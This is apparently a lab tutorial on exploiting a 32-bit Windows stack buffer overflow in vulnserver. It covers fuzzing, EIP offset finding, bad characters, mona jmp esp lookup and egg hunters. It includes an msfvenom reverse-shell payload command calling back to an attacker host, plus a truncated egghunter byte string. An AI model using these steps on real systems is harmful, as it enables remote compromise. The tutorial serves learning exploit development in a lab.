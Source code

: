 ## INTRODUCTION TO BUFFER OVERFLOWS


* In this writeup, I will provide a walkthrough of a 32-bit windows buffer overflow
* Topics to cover
	1. Anatomy  of the stack
	2. Fuzzing
	3. Finding the offset 
	4. Overwriting the EIP
	5. Finding the bad characters
	6. Finding the right module
	7. Generating shellcode
	8. Gaining root

# ANATOMY OF THE STACK

* When we look into the memory stack, we will find 4 main components
	1. Extended Stack Pointer (ESP)
	2. Buffer Space
	3. Extender Base Pointer (EBP)
	4. Extended Instruction Pointer (EIP) / Return address

* Buffer space is used as a storage area for memory in some coding languages. With proper input sanitation, information placed into the buffer space should never travel outside of the buffer space itself.
* Information placed into the buffer space should stop at the EBP
* In a buffer overflow, information escapes the buffer space and reaches the EIP. If an attacker can gain control of the EIP, he or she can use the pointer to point malicioud code and gain a reverse shell.

# FUZZING 

* Fuzzing allows us to send bytes of data to a vulnerable program in growing iteration in hopes of overflowing the bufferspace and overwriting the EIP. We can use a simple python fuzzing script
* Attach our debugger to the vulnerable program and observer how all the registers get overwritten. It took approximately 3000 bytes to crash the program
* What we need to do next is to figure out exactly where the EIP is located and attempt to control it.


# FINDING THE OFFSET

* So now that we know we can overwrite the EIP and it occurred between 1 and 3000 bytes, we can use ruby tools caled pattern create and offset to find the exact location of the overwrite. Pattern create allows us to generate a cyclic amount of bytes based no the number of bytes we specify.
* We can send those bytes to vulnserver to find out where exactly we overwrote the EIP. Pattern offset will help us determine that soon.
* ``` pattern_create.rb -l 3000 ``` where l is for length and 3000 is for bytes.
* we modify our code to include all of the bytes that were generated by pattern create.
* We send the bytes to vulnserver and notice we still overwrite the program. This time the EIP value indicates part of  our code we generated with pattern create.
* We can use pattern offset to find out where this pattern occurs
* ``` pattern_offset.rb -l 3000 -q 386F4337  ``` We get a match at 2003 bytes. We can now try to control the EIP

# OVERWRITING THE EIP

* Now that we know the EIP is after 2003 bytes, we can modify our code. We can add 4B's and 2003 A's in an attempt to reach and overwrite the EIP. The EIP is now 42424242. Remember the EIP has a length of 4 bytes so if we overwrite it successfully we will be in full control and on our way to root.
* So now we need to do some research to know what byte characters it is friendly with in order to finalize our exploit 

# FINDING BAD CHARACTERS

* Certain byte characters can cause issues in the development of exploits. We must run every byte through the vulnserver program to see if any characters cause issues. 
* By default, the null byte(x00) is always considered a bad character as it will truncate shellcode when executed. 
* We can add badchars in our code and send it over to vulnserver
* After sending this code, right click on ESP register and select "Follow in Dump"
* Check the hex dump, and if a bad character were present, it would seem out of place. In our case we don't find any

# FINDING THE RIGHT MODULE

* This means we need to find some part of vulnserver that does not have any sort of memory protections such as DEP, ASLR, SEH.
* After copying mona modules to vulnserver we can use it to find a jmp esp opcode that EIP will point to to jump to our malicious shellcode that we will later inject
``` !mona jmp -r esp``` will get us the module to use. Copy the address of the opcode and add it to our python code to overwrite our EIP. 
* The address is entered backwards to conform to little Endian. we can use struct module to pack the bytes in python
* We can set a breakpoint at that address and send the exploit. Immunity should trigger the breakpoint 

# GENERATING THE SHELLCODE

* We can use msfvenom to generate malicious shellcode which will tell the victim machine to talk back to our machine. 
``` msfvenom -p windows/shell_reverse_tcp LHOST=your.Kali.IP.address LPORT=4444 EXITFUNC=thread -f c -a x86 –platform windows -b “\\x00”```

-p is for payload. we are using a non-staged windows reverse shell payload
LHOST is the attacker IP, LPORT the attacker port
EXITFUNC=thread adds stability to our payload
-f is for file type, here we generate a c file type
-a is for architecture, we are attacking a x86
-platform is for OS type- windows machine
-b is for bad characters, our only one is x00

We add this to our exploit. we can also place a NOP padding (x90) to avoid interference with our return address

# GAINING ROOT

* We set up a listener, we can use msfconsole or nc to listen on the port we specified and then send the exploit

## EGG HUNTER

* In classic stack based BO, the buffer size is big enough to hold the shellcode, but what will happen if there isn't enough consecutive memory space available for the shellcode to fit in after overwrite happens.
* An egghunter is a relatively small piece of code that can search the virtual memory space safely(avoiding access violations) to identify a specific string, which is then used to indicate where the start of the exploit shellcode resides

example: If the shellcode were positioned in a much earlier part of the input buffer payload, but somewhere too far away to access via an available JMP or CALL instruction. Using an egghunter is considerably more beneficial in scenarios where there are protections such as ASLR, where virtual memory is randomised.

# HOW THE EGGHUNTER WORKS

* Essnetially, the egghunter code will initially set the EBX register to the start of the virtual memory address space(by going to the end of the address page and incrememnting EBX by 1) and then gradually work its way through whilst allowing for error handling.
* The code will compare the value of the virtual memory address to that of the egg's string. Once this is found once, the code loops and continues till it finds the second value.
* In summary, what you need to know is that the egg hunter contains a user defined 4-byte tag, it will then search through memory until it finds this tag twice repeated (if the tag is "1234" it will look for "12341234"). When it finds the tag it will redirect execution flow to just after the tag and so to our shellcode.
* It then sets a JMP to the memory address immediately following the egg

# NTDISPLAYSTRING

* Ntdisplaystring egg hunter shellcode uses only 32 bytes of memory space. This is what we will be discussing here.
* The actual system call that was used to accomplish the egg hunting operation is the NtDisplayString system call
* This system call is used to display text to the blue screen. In this implementation a system call is used to validate an address range.
* For the purposes of an egg hunter, it is abused due to the fact that its only argument is a pointer that is read from and not written to, thus making it a most desirable choice.
* A disadvantage for this payload is that it relies on the system call number for NtDisplayString not changing. In all versions of windows it remains 0x43 but it is entirely possible that the number may change in future.
* If we construct NtDisplayString in hex it would look like this

* Here "\x90\x50\x90\x50" is replaced by the custom tag w00t.
So the resulting code looks like this:
"\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3
* As you can see from above, the NtdisplayString code is used as a search mechanism to search for the custom tag wootwoot in memory and start the execution of shellcode
* In the Ntdisplaystring implementation, the edx register is used as the register that holds the pointer that is to be validated throughout the course of the search operation.
* The return value of the sysetm call is compared against 0x5 which is the low byte of STATUS ACCESS VIOLATION, or 0xc0000005